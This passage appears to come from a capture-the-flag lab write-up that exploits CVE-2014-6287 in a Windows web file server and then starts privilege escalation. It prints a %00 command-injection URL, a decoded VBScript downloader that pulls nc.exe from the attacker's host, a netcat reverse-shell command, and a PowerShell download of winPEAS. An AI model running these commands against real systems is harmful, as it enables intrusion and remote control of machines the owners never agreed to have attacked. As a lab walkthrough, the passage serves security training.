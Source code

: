 C:\Users\bill\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup>
</pre></li>
</ol>

### What is the script actually doing
[CVE-2014-6287](https://nvd.nist.gov/vuln/detail/CVE-2014-6287) mentions remote code execution when we add in a `%00` sequence in the search action. So if we take a look at the script (https://www.exploit-db.com/exploits/39161), it's using the crafted url:
```
http://[ip address]:[port]/?search=%00{.[some windows command].}
Example: http://10.10.74.238:8080/?search=%00{.dir.}
```
The example above will go into our target web server at port 8080 and run the CMD command <code>dir</code> (although we're not going to get any feedback saying that we've run it successfully). Okay, what else could run?

Looks like there are three commands it's running, it all just looks super jumbled because it's percent-encoded (or URL encoded). If we decode all of it and glue everything together, we get three commands:
```
save:
save|C:\\Users\\Public\\script.vbs|dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", "http://10.6.49.162/nc.exe", False
xHttp.Send

with bStrm\r
    .type = 1 \'//binary
    .open
    .write xHttp.responseBody
    .savetofile "C:\\Users\\Public\\nc.exe", 2 \'//overwrite
end with

exe:
exec|cscript.exe C:\\Users\\Public\\script.vbs

exe1:
exec|C:\Users\Public\nc.exe -e cmd.exe 10.6.49.162 8888
```

Looks like it's creating a VB script that pulls in from our python webserver <code>nc.exe</code> and saving it to <code>C:\Users\Public\nc.exe</code>, running the actual script, and then running netcat to hit our netcat listener

### Privilege escalation
Now that we're in, we can work on privilege escalation. The room mentions that we should move over winPEAS
<ol style="list-style:decimal">
<li>Back in our 3rd terminal which just ran the python script, let's download winPEAS https://github.com/carlospolop/PEASS-ng/blob/master/winPEAS/winPEASbat/winPEAS.bat and put it back into the <code>~/Desktop/nc</code> directory so it's available on the web server</li>

<li>In our target machine, it looks like we can run powershell commands. The main command we'll be using is <code>powershell -c [command]</code>. The main cmdlet we'll abuse is <code>Invoke-WebRequest</code>. We'll obtain the <code>winPEAS.bat</code> file by the command:
<pre>
powershell -c Invoke-WebRequest -OutFile winPEAS.bat -URi http://10.6.49.162/winPEAS.bat
</pre>
</li>

